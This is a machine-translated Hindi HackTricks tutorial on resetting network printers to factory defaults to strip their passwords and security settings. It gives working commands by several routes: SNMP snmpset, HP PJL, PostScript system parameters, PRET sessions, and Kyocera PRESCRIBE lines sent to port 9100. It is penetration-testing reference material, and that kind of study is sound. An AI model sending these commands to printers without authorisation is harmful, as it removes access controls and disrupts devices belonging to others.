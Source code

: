 <details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS की नवीनतम संस्करण या HackTricks को PDF में डाउनलोड** करने का उपयोग करना है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या मुझे **Twitter** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स को [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके साझा करें।**

</details>


एक उपकरण को फैक्ट्री डिफ़ॉल्ट पर रीसेट करना सुरक्षा-महत्वपूर्ण एक कार्यक्षमता है क्योंकि इससे उपयोगकर्ता द्वारा सेट किए गए पासवर्ड जैसे सुरक्षा युक्तियों को ओवरराइट कर दिया जाता है। यह आमतौर पर प्रिंटर के नियंत्रण पटल पर एक **विशेष कुंजी संयोजन** दबाकर किया जा सकता है। ऐसा कोल्ड रीसेट करना केवल कुछ सेकंड लेता है और इसलिए स्थानीय हमलावरों या पेनेट्रेशन टेस्टर्स के लिए यह एक वास्तविक स्थिति है, जो उदाहरण के लिए दोपहर के भोजन के समय कॉपी कक्ष में छिपकर कर सकते हैं। हालांकि, उपकरण तक **भौतिक पहुंच** हमेशा एक विकल्प नहीं होती है।

### SNMP

प्रिंटर-एमआईबी प्रिंटर को (powerCycleReset(4)), NVRAM सेटिंग्स को रीसेट करने (resetToNVRAM(5)) या फैक्ट्री डिफ़ॉल्ट पुनर्स्थापित करने (resetToFactoryDefaults(6)) की अनुमति देता है। यह सुविधा / हमला **विभिन्न प्रकार के प्रिंटर्स द्वारा समर्थित होता है** और एम्बेडेड वेब सर्वर के लिए उपयोगकर्ता द्वारा सेट किए गए पासवर्ड जैसी सभी सुरक्षा युक्तियों को हटा देता है। सुरक्षा युक्तियों को कारगरता से अनदेखा किया जा सकता है, लेकिन इस दृष्टिकोण का एक व्यावहारिक नुकसान यह है कि सभी **स्थायी आईपी पता विन्यास खो जाएगा**। **यदि कोई DHCP** सेवा उपलब्ध नहीं है, तो हमलावर उपकरण को फैक्ट्री डिफ़ॉल्ट पर रीसेट करने के बाद उससे अधिक नहीं **जुड़ सकेंगे**।

उपकरण को फैक्ट्री डिफ़ॉल्ट पर रीसेट करने के लिए निम्नलिखित द्वारा `snmpset` कमांड का उपयोग किया जा सकता है (आपको **सामुदायिक स्ट्रिंग** को जानने की आवश्यकता होती है, अधिकांश मामलों में डिफ़ॉल्ट रूप से `public` होता है):
```bash
snmpset -v1 -c public printer 1.3.6.1.2.1.43.5.1.1.3.1 i 6
```
### [PML](./#pml)/[PJL](./#pjl)

बहुत सारे स्थितियों में हमलावर के पास फ़ायरवॉल या अज्ञात SNMP समुदाय स्ट्रिंग के कारण SNMP अनुरोध करने की क्षमता नहीं होती है। हालांकि, **HP उपकरणों** पर, **SNMP** को उसके **PML प्रतिष्ठान** में परिवर्तित किया जा सकता है और वास्तविक प्रिंट जॉब के भीतर अनुरोध सम्मिलित किया जा सकता है। इससे हमलावर को आम प्रिंट जॉब्स के भीतर उपकरण को **पुनः प्रारंभ और/या फैक्टरी डिफ़ॉल्ट्स पर रीसेट** करने की अनुमति मिलती है, जैसा नीचे दिखाया गया है:
```bash
@PJL DMCMD ASCIIHEX="040006020501010301040106"
```
किसी भी व्यक्ति इस हमले को एचपी प्रिंटर पर दोहरा सकता है, उपकरण को पुनरारंभ करना या रीसेट करना आसानी से [**PRET**](https://github.com/RUB-NDS/PRET) का उपयोग करके दोहराया जा सकता है:
```bash
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> reset
printer:/> restart
```
### PostScript

PostScript एक समान सुविधा प्रदान करता है: **FactoryDefaults** सिस्टम पैरामीटर, 'एक झंडा जो, यदि **सत्य** पर सेट किया जाए **बंद होने से पहले** प्रिंटर को, अगले पावर-ऑन पर सभी गैर-स्थायी पैरामीटर अपने **फैक्टरी डिफ़ॉल्ट** मानों पर वापस ले जाने का कारण बनता है। इसे ध्यान देना चाहिए कि **PostScript** खुद में भी अपने **पर्यावरण** को **रीस्टार्ट** करने की क्षमता है, लेकिन इसके लिए एक **मान्य पासवर्ड** की आवश्यकता होती है। \
हालांकि, PostScript इंटरप्रिटर को एक **अनंत लूप** में डाला जा सकता है जैसा कि [दस्तावेज़ प्रसंस्करण](http://hacking-printers.net/wiki/index.php/Document\_processing) DoS हमलों में चर्चा की गई है, जो उपयोगकर्ता को बाधित करता है कि वह उपकरण को **मैन्युअल रीस्टार्ट** करें और इस प्रकार PostScript पासवर्ड को रीसेट करें।

फैक्टरी डिफ़ॉल्ट पर PostScript सिस्टम पैरामीटरों को रीसेट करें:
```bash
<< /FactoryDefaults true >> setsystemparams
```
पोस्टस्क्रिप्ट इंटरप्रिटर और वर्चुअल मेमोरी को रीस्टार्ट करें:
```bash
true 0 startjob systemdict /quit get exec
```
किसी भी व्यक्ति को प्रिंटर के पोस्टस्क्रिप्ट अनुवादक को पुनः आरंभ या रीसेट करने की सुविधा **आसानी से दिखाई दे सकती है** जिसे [**PRET**](https://github.com/RUB-NDS/PRET) का उपयोग करके पुनर्जीवित किया जा सकता है:
```bash
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> reset
printer:/> restart
```
### प्रीस्क्राइब

**Kyocera उपकरणों** के लिए, **प्रीस्क्राइब पेज** विवरण भाषाएँ उपयोग की जा सकती हैं उपकरण को साधारित प्रिंट जॉब के भीतर फैक्टरी डिफ़ॉल्ट पर रीसेट करने के लिए नीचे दिखाए गए कमांडों में से कोई एक का उपयोग करके।
```bash
!R! KSUS "AUIO", "CUSTOM:Admin Password = 'admin00'";  CMMT "Drop the security level, reset password";
!R! ACNT "REST";                                       CMMT "Reset account code admin password";
!R! EGRE;                                              CMMT "Reset the engine board to factory defaults";
!R! SIOP0,"RESET:0";                                   CMMT "Reset configuration settings";
```
इस हमले को पुनर्जीवित करने के लिए, प्रिंटर के पोर्ट 9100/tcp पर एक रॉ नेटवर्क कनेक्शन खोलें और **ऊपर दस्तावेज़ीकृत आदेश भेजें**।


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह।

- प्राप्त करें [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके।**

</details>
